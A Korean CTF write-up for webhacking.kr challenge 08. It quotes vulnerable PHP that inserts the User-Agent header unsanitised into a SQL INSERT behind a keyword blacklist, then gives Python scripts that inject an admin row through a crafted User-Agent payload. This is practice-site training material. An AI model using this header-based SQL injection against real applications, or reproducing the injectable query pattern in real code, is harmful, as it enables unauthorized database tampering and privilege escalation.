 ================================================================================================================
[webhacking.kr] 08
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="User-Agent: joizel','2.2.2.2','admin');#",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|


Source analysis
================================================================================================================

입력 부분: $_SERVER[HTTP_USER_AGENT], getenv("HTTP_USER_AGENT")

출력 부분: @solve();

.. code-block:: php

    <html>
    <body>
    <?
    $agent=getenv("HTTP_USER_AGENT");
    $ip=$_SERVER[REMOTE_ADDR];
    $agent=trim($agent);
    $agent=str_replace(".","_",$agent);
    $agent=str_replace("/","_",$agent);
    $pat="/\/|\*|union|char|ascii|select|out|infor|schema|columns|sub|-|\+|\||!|update|del|drop|from|where|order|by|asc|desc|lv|board|\([0-9]|sys|pass|\.|like|and|\'\'|sub/";
    $agent=strtolower($agent);
    if(preg_match($pat,$agent)) 
        exit("Access Denied!");
    $_SERVER[HTTP_USER_AGENT]=str_replace("'","",$_SERVER[HTTP_USER_AGENT]);
    $_SERVER[HTTP_USER_AGENT]=str_replace("\"","",$_SERVER[HTTP_USER_AGENT]);
    $count_ck=@mysql_fetch_array(mysql_query("select count(id) from lv0"));
    if($count_ck[0]>=70) { 
        @mysql_query("delete from lv0"); 
    }
    $q=@mysql_query("select id from lv0 where agent='$_SERVER[HTTP_USER_AGENT]'");
    $ck=@mysql_fetch_array($q);
    if($ck){ 
        echo("hi <b>$ck[0]</b><p>");
        if($ck[0]=="admin"){
            @solve();
            @mysql_query("delete from lv0");
        }
    }
    if(!$ck){
        $q=@mysql_query("insert into lv0(agent,ip,id) values('$agent','$ip','guest')") or die("query error");
        echo("<br><br>done!  ($count_ck[0]/70)");
    }
    ?>
    </body>
    </html>


User-Agent 변조
================================================================================================================

입력 부분이 getenv("HTTP_USER_AGENT")이고, User-Agent를 변조해서 admin이라는 계정을 삽입할 수 있다.

.. code-block:: sql

    insert into lv0(agent,ip,id) values('$agent','$ip','guest')

해당 소스 코드를 통해 agent값을 변조하여 쿼리를 날린다.

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-08/index.php"
    headers = {
        "User-Agent":"joizel','2.2.2.2','admin');#"
    }
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    r = requests.get(url, headers = headers, cookies=cookies, verify=False)

    print r.content

등록한 agent를 이용해 쿼리를 날리면 패스워드를 확인할 수 있다.

.. code-block:: sql

    select id from lv0 where agent='$_SERVER[HTTP_USER_AGENT]'

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-08/index.php"
    headers = {
        "User-Agent":"joizel"
    }
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    r = requests.get(url, headers = headers, cookies=cookies, verify=False)

    print r.content

